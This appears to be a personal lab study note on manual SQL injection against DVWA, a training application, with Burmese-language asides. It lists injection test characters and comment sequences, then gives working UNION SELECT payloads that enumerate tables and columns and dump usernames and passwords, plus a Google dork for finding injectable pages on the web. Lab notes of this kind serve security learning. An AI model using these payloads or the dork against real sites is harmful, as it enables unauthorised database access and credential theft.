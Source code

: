 
1.  Integer base = 1
2.  String Base = '1'    , "1"     ,      `1`

sql test   =>
'
"
(`)
\



sql comment
# 
%23
(`)
%60
(-- -)
--+ 
;


 
Step 1 -> fix the error with command 
(error fix yar mar ' pr yin string base  // ' ma par yin integer base)

Step 2 -> Find the column count with order by

![[Pasted image 20230122113050.png]]

Step 3 -> Find the vlun column with union select 
(pout dae column dwe ma paw yin id shay mr - value lay net san kyi)   -> we use 1,2 cuz we alerady know there is 2 column on second stage

![[Pasted image 20230122113815.png]]

we use concat function id vlun colum was just 1 // we wanna know more information  -> we use ,0x3a3a3a,   to sperate two column

![[Pasted image 20230122115234.png]]


Sql with XSS 
![[Pasted image 20230122120146.png]]

===> Here is with post method   **

![[Pasted image 20230122142121.png]]


Step 4=>  Find the table name from database
10.0.2.9/DVWA/vulnerabilities/sqli/?id=1’ union select group_concat(table_name),2 from information_schema.tables where table_schema=database()-- -&Submit=Submit#


Step 5=> Find the column name from table
1’ union select group_concat(column_name),2 from information_schema.columns where table_schema=database() and table_name=’users’-- -&Submit=Submit#

Step 6 => dump data from column
10.0.2.9/DVWA/vulnerabilities/sqli/?id=1’ union select group_concat('<br/>’,user,0x3a3a,password),2 from users-- -&Submit=Submit


-------
inurl"index.php id=’    => google docking 



=>  blind base and error base 
[https://pastebin.com/V6pwM7KF](https://pastebin.com/V6pwM7KF)